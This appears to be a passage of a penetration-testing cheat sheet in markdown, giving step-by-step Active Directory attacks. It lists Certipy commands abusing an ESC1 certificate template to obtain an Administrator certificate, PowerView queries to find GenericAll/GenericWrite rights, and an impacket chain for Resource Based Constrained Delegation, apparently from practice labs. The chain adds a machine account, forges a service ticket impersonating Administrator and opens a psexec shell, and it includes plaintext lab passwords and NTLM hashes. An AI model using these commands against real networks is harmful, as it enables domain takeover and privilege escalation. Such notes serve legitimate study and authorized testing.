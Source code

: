 ```
https://github.com/ly4k/Certipy?tab=readme-ov-file#certificates
```
![image](https://github.com/user-attachments/assets/c6e89df4-194f-4e7b-a9c8-9b6c82a159b0)
```
ESC1:

certipy-ad req -username Tracy.White@nara-security.com -password zqwj041FGX -target-ip 192.168.168.30 -ca 'NARA-CA' -template 'NaraUser' -upn Administrator@NARA-SECURITY.COM
certipy-ad auth -pfx administrator.pfx -username Administrator -domain 'nara-security.com' -dc-ip 192.168.168.30

Tip:
"python3 -m pip install --upgrade certipy-ad" and "sudo apt-get update&upgrade" somethines could solve the issue 
```
#### Resource Based Constrained Delegation Attack
```
Detection:
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericAll*' }

Output:
AceType               : AccessAllowed
ObjectDN(to)          : CN=RESOURCEDC,OU=Domain Controllers,DC=resourced,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-537427935-490066102-1511301751-1000
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-537427935-490066102-1511301751-1105
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
Identity(from)        : resourced\L.Livingstone
```
Bloodhound showing GenericAll privileges on the Domain Controller  
![image](https://github.com/user-attachments/assets/8a75dfbe-58a3-44a6-a962-dd34daf4b465)
```
impacket-addcomputer resourced.local/l.livingstone(:password) -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
python3 rbcd.py -dc-ip 192.168.153.175 -t RESOURCEDC(hostname) -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x

Alternate way:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
export KRB5CCNAME=./Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
impacket-psexec administrator@backup01.corp.com -k -no-pass
```